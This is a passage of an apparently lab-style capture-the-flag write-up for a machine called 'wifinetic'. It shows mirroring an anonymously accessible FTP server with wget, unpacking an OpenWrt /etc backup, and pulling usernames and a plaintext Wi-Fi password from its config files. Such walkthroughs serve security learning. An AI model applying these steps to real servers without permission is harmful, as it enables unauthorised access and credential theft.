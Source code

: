## FTP TCP/21
The `nmap` scan revealed that anonymous login is enabled on this server, hosting several files. My approach is to connect to the server and download everything available. This server might contain sensitive data or information leading to further access. The `wget` command, commonly used with web servers, can also be employed for FTP downloads. The command below achieves this:
```
[zonifer@dell wifinetic]$ wget -m ftp://anonymous@10.10.11.247   
...
```

A majority of the files pertain to a project focused on migrating from OpenWrt (an OS for embedded devices) to Debian. Notably, a tarball of the `/etc/` folder for one of these devices was also present.

```
[zonifer@dell 10.10.11.247]$ tar -xvf backup-OpenWrt-2023-07-26.tar 
./etc/                         
./etc/config/                  
./etc/config/system 

...

[zonifer@dell 10.10.11.247]$ cd etc
[zonifer@dell etc]$ ls
config  dropbear  group  hosts  inittab  luci-uploads  nftables.d  opkg  passwd  profile  rc.local  shells  shinit  sysctl.conf  uhttpd.crt  uhttpd.key
```


The `passwd` file provided a list of usernames: `root & netadmin`. Further enumeration led me to a config folder housing a `wireless` file, containing passwords for a wireless network.

```
[zonifer@dell etc]$ cd config/
[zonifer@dell config]$ ls      
dhcp  dropbear  firewall  luci  network  rpcd  system  ucitrack  uhttpd  wireless
[zonifer@dell config]$ cat wireless 

[snip]

config wifi-iface 'wifinet0'   
        option device 'radio0'                                                                                                                          
        option mode 'ap'            
        option ssid 'OpenWrt'         
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
        option wps_pushbutton '1'                                           
                                      
config wifi-iface 'wifinet1' 
        option device 'radio1'
        option mode 'sta'  
        option network 'wwan'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
```
